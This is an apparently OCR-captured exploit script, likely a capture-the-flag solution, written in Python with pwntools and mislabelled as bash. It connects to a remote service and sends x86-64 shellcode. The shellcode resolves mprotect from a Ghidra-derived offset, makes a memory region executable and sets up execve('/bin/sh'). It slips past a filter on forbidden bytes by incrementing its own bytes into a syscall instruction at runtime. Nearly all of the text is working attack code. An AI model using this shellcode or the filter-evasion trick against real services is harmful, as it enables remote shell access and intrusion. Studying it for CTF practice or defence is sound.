 ```bash
# Target configuration
HOST = "xx.xxx.xx.xxx"
PORT = 9008

# From our Ghidra analysis:
# main function at 0x12eb
# mprotect PLT at 0x1100 
MAIN_OFFSET = 0x12eb
MPROTECT_OFFSET = 0x1100

def create_exploit():
    shellcode = asm(f"""
        /* Assume r13 holds main address at runtime */
        /* Calculate mprotect address: main_base - main_offset + mprotect_plt_offset */
        lea rbx, [r13 - {MAIN_OFFSET} + {MPROTECT_OFFSET}]
        
        /* Call mprotect(0xc0de0000, 100, 7) */
        mov rdi, 0xc0de0000         /* address */
        mov rsi, 0x64               /* length (100 bytes) */
        mov rdx, 0x7                /* PROT_READ|PROT_WRITE|PROT_EXEC */
        call rbx                    /* mprotect() */

        /* Setup execve("/bin/sh", NULL, NULL) */
        xor rsi, rsi                /* argv = NULL */
        xor rdx, rdx                /* envp = NULL */
        mov rax, 0x3b               /* sys_execve */
      
        /* Push "/bin/sh" string to stack */
        mov rdi, 0x68732f6e69622f   /* "/bin/sh" */
        push rdi
        mov rdi, rsp                /* rdi points to "/bin/sh" on stack */
        
        /* Self-modifying syscall patch - GENIUS TECHNIQUE! */
        /* Start with safe bytes 0x0e04, increment to get 0x0f05 */
        inc byte ptr [rip + syscall_patch]      /* 0x0e -> 0x0f */
        inc byte ptr [rip + syscall_patch + 1]  /* 0x04 -> 0x05 */
        
        syscall_patch:
        .byte 0x0e, 0x04            /* Will become 0x0f, 0x05 (syscall) */
    """)

    return shellcode

def exploit():
    try:
        # Connect to target
        target = remote(HOST, PORT, timeout=15)
        log.info(f"Connected to {HOST}:{PORT}")
        
        # Generate shellcode
        shellcode = create_exploit()
        log.info(f"Shellcode size: {len(shellcode)} bytes")
        
        # Check for obvious forbidden bytes (should be clean)
        forbidden = [0x0f, 0xcd]
        for i, byte in enumerate(shellcode):
            if byte in forbidden:
                log.warning(f"Forbidden byte 0x{byte:02x} at offset {i}")
        

        # Wait for prompt and send exploit
        target.recvuntil(b"Send to void execution:")
        target.sendline(shellcode)
```